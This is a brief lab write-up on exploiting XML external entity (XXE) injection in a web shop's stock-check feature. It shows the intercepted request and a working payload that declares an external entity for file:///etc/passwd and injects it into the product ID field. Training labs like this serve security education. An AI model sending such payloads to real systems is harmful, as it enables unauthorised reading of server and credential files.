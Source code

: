 # Exploiting XXE using external entities to retrieve files

## This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

## To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

---

### step 1

go to product page intercept send to repeater

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

### step2

add _<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>_ and in product id use &xxe;

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>
```

![screenshot](./images/lab1_xxe_retrieve_files.png)

lab solved
